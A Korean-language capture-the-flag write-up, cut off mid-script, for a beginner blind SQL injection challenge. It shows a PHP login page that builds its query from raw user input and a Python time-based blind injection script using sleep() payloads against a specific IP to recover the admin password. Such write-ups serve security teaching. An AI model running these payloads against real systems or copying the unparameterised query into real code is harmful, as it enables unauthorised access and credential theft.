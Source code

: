 <a id="for_beginner-SQL"></a>        
                
## 2. for_beginner-SQL 
   
Blind SQL Injection을 사용하여 관리자 패스워드를 알아내는 문제였다. 

```php
<?php
session_start();
require_once "config/dbconn.php";

$userid = $_GET['userid'];
$password = $_GET['password'];

if(isset($userid) && isset($password)) {
    $query = "SELECT userid, password FROM user WHERE userid = '${userid}' and password = '".md5($password)."'";
    try {
        $result = $mysqli->query($query);
        $data = mysqli_fetch_array($result);
        if(isset($data) && $data[0] == "admin" && $data[1] === md5($password)){
            die($flag);
	    } else {
		    die("Wrong...");
	    }
    } catch(Exception $e) {
    }
} else {
    show_source(__FILE__);
}
?>
```
PHP에서 SQL Injection 취약점이 존재하는 함수인 `$mysqli->query($query);`를 사용하고 있다. 패스워드는 md5 해쉬 알고리즘을 사용하고 있어 userid를 통해 Blind SQL Injection을 수행하였다.    
    

## Exploit Code    
```python
import requests
import time

url = "http://3.34.190.217:2023/"
password = ""
length_password = 0
for i in range(64): 
    start = time.time() 
    r = requests.get(
                url, 
                params={
                    "userid": "aaaa' or if(length(password)={},sleep(3),false)#".format(i),
                    "password": "test"
                }
            )
    end = time.time() 
    if end - start >= 1.5: 
        length_password = i 
        print(f"Length of Password: {i}")
        break 
        
for i in range(1, length_password + 1):
    for j in range(32, 128):
        start = time.time()
        r = requests.get(
                url, 
```